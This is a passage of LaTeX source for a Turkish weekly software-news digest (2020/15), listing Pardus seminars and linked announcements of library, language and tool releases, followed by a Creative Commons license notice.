
\includegraphics[width=.9\linewidth]{gorseller/acik-seminer.jpeg}
\end{center}

Bu haftanın programı:
\begin{itemize}
\item \href{https://www.acikseminer.com/seminerler/pardus-temel-seviye-seminer-1gun-08f34754}{PARDUS Temel Seviye Seminer (1.Gün)}
\item \href{https://www.acikseminer.com/seminerler/pardus-temel-seviye-seminer-2gun-6f1799a0}{PARDUS Temel Seviye Seminer (2.Gün)}
\item \href{https://www.acikseminer.com/seminerler/pardus-temel-seviye-seminer-3gun-bb5381e0}{PARDUS Temel Seviye Seminer (3.Gün)}
\item \href{https://www.acikseminer.com/seminerler/pardus-uzerinde-python-kullanarak-domain-entegrasyonu-1gun-b62a1c6f}{Pardus Üzerinde Python Kullanarak Domain Entegrasyonu (1.Gün)}
\item \href{https://www.acikseminer.com/seminerler/pardus-uzerinde-python-kullanarak-domain-entegrasyonu-2gun-728376ec}{Pardus Üzerinde Python Kullanarak Domain Entegrasyonu (2.Gün)}
\end{itemize}
\section{Diğer Haberler}
\label{sec:org9d193d3}
\begin{itemize}
\item Programlama Yarışması: \href{https://ku.acm.org/berkbingol/}{Berk Bingöl Programming Contest}
\item npm ve GitHub \href{https://github.blog/2020-04-15-npm-has-joined-github/}{birleşmesi tamamlandı}. \href{https://blog.npmjs.org/post/612764866888007680/next-phase-montage}{Alternatif} (bkz: \href{../11/yazilim-gundemi-2020-11.pdf}{Yazılım Gündemi -
2020/11})
\item Cloudflare Workers artık \href{https://blog.cloudflare.com/cloudflare-workers-now-support-cobol/}{COBOL destekliyor}.
\item ProtonMail Bridge \href{https://protonmail.com/blog/bridge-open-source/}{açık kaynak olarak yayınlandı}. \href{https://github.com/ProtonMail/proton-bridge}{GitHub Deposu}
\item Google, Kotlin için gRPC kütüphanesini \href{https://cloud.google.com/blog/products/application-development/use-grpc-with-kotlin}{açık kaynak olarak yayınladı}:
\href{https://github.com/grpc/grpc-kotlin}{grpc-kotlin}.
\item Microsoft, WSL2 (Windows Subsystem for Linux 2) sistemini Windows 10 version
2004 ile birlikte \href{https://www.infoq.com/news/2020/04/wsl-2-general-availability/}{genel erişilebilir olacak}.
\item Rust 2019 anketi \href{https://blog.rust-lang.org/2020/04/17/Rust-survey-2019.html}{sonuçları yayınlandı}.
\item Ruby Concurrency Final Raporu \href{https://www.codeotaku.com/journal/2020-01/ruby-concurrency-progress-report/index}{yayınlandı}.
\item Dell BIOS saldırısı tespiti için \href{https://www.zdnet.com/article/dell-releases-new-tool-to-detect-bios-attacks/}{yeni bir araç yayınladı}.
\item VueJS \href{https://github.com/vuejs/vue-next/releases/tag/v3.0.0-beta.2}{v3.0.0 Beta 2 sürümü yayınlandı}.
\item jQuery \href{http://blog.jquery.com/2020/04/10/jquery-3-5-0-released/}{3.5.0 sürümü yayınlandı}.
\item Microsoft C++ takımı, \href{https://devblogs.microsoft.com/cppblog/gsl-3-0-0-release/}{GSL 3.0.0 sürümünü yayınladı}. \href{https://github.com/microsoft/GSL}{GitHub Deposu}
\item NodeJS \href{https://nodejs.org/en/blog/release/v13.13.0/}{v13.13.0 sürümü yayınlandı}.
\item Zig programlama dilinin \href{https://ziglang.org/download/0.6.0/release-notes.html\#Target-Details}{0.6.0 sürümü yayınlandı}.
\item Lazarus \href{https://forum.lazarus.freepascal.org/index.php?topic=49356.0}{2.0.8 sürümü yayınlandı}.
\item D programlama dili takımından \href{https://dlang.org/blog/2020/04/13/dustmite-the-general-purpose-data-reduction-tool/}{yeni araç duyurusu}: \href{https://github.com/CyberShadow/DustMite}{DustMite}.
\item Gloo \href{https://www.solo.io/blog/announcing-gloo-1-3-developer-portal-extensibility-performance-and-usability/}{1.3 sürümü yayınlandı}.
\item Earthly \href{https://github.com/vladaionescu/earthly/releases/tag/v0.1.0}{v0.1.0 sürümü yayınlandı}.
\item gbundle \href{https://interrupt.memfault.com/blog/gdbundle-plugin-manager}{aracı tanıtıldı}. \href{https://github.com/memfault/gdbundle}{GitHub Deposu}
\item Tide \href{https://github.com/http-rs/tide/releases/tag/v0.7.0}{0.7.0 sürümü çıktı}.
\item Logos \href{https://github.com/maciejhirsz/logos/releases/tag/v0.11.0}{0.11.0 sürümü çıktı}.
\item Boa \href{https://github.com/jasonwilliams/boa/releases/tag/v0.7.0}{0.7.0 sürümü çıktı}.
\item Blazorise \href{https://blazorise.com/news/release-notes/090/}{0.9 sürümü çıktı}.
\end{itemize}
\section{Lisans}
\label{sec:orga2053b4}
\begin{center}
\begin{center}

\includegraphics[height=1.5cm]{../../../img/CC_BY-NC-SA_4.0.png}
\end{center}

\href{yazilim-gundemi-2020-15.pdf}{Yazılım Gündemi - 2020/15} yazısı \href{https://erenhatirnaz.github.io}{Eren Hatırnaz} tarafından \href{http://creativecommons.org/licenses/by-nc-sa/4.0/}{Creative Commons
Atıf-GayriTicari-AynıLisanslaPaylaş 4.0 Uluslararası Lisansı} (CC BY-NC-SA 4.0)
ile lisanslanmıştır.
\end{center}
\end{document}
